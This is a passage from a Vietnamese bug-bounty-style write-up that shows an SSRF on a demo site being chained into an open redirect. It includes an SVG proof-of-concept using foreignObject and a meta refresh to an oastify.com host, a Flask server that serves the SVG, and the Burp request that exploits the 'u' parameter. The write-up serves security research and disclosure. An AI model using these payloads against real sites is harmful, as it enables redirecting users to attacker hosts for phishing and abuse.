![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/8.png)

Sau khi phân tích, tôi nhận thấy có thể tận dụng khả năng chèn nội dung HTML để gây ra tấn công `Chuyển Hướng Mở (Open Redirect)` bằng cách sử dụng `meta tag`.

### Kịch Bản Tấn Công (Attack Scenario)

Để chứng minh kịch bản này, tôi đã thiết lập một máy chủ độc hại để lưu lại nhật ký truy cập (log).

Tôi đã tạo một file poc.xml trên máy chủ độc hại với nội dung sau:

`poc.xml`
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://wcc9fwntbs9o7upj4haqmnxi0960uqif.oastify.com/" />
    </body>
  </foreignObject>
</svg>
```

File này thực chất là một `SVG (một dạng XML)` có chứa thẻ `<foreignObject>`, cho phép nhúng nội dung HTML. Nhờ `namespace http://www.w3.org/1999/xhtml`, thẻ `<meta http-equiv="refresh">` sẽ được trình duyệt của người dùng xử lý, buộc họ tự động chuyển hướng đến một URL do kẻ tấn công chỉ định.

### Quá trình khai thác:

1. Tôi đã thiết lập máy chủ độc hại bằng Flask để phục vụ file `poc.xml` với `header Content-Type: image/svg+xml`. 
```python
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    else:
        return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=5505)
```

2. Sử dụng `Burp Suite Repeater`, tôi lợi dụng lỗ hổng `SSRF` bằng cách cung cấp địa chỉ của máy chủ độc hại `(http://{ip}:{port}/poc.xml) `vào tham số `u`.
```http
GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2 
Host: VulnWeb-demo.com 
Cookie: None
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 
```